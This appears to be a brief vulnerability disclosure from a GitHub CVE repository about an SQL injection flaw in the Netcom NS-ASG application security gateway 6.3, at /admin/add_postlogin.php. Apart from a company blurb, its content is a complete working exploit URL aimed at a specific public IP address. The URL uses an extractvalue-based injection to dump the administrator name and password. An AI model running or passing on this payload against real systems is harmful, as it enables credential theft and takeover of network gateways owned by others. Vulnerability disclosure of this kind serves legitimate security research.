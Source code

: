 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/add_postlogin.php

url：
https://1.85.53.53/admin/add_postlogin.php?SingleLoginId=1%20%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))%20%23

<img width="592" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/6fbd6909-8f1e-40a4-b8fb-f17218bdc0c3">

